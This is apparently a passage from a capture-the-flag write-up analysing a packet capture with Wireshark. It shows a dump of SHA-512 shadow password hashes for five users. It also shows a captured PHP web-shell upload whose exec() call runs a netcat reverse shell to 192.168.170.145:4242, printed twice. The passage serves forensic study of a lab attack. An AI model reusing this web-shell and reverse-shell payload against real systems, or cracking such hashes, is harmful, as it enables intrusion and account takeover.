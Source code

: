 Frame 112 TCP stream.
```bash
# i copied and pasted the data below to a file called 'hashes.txt'
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

## File Analysis
Wireshark 
* File > Export Objects > HTTP > Save All

Files exported from the PCAP by Wireshark are below. 
```bash
ls -al | awk '{print $9}'

# output
%2f
cooctus(1).png
cooctus.png
development
index.html
upload(1).php
upload.php
uploads
```

Frame 14 payload. 
```bash
cat upload.php

# output
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--

# payload within the file
exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")
```
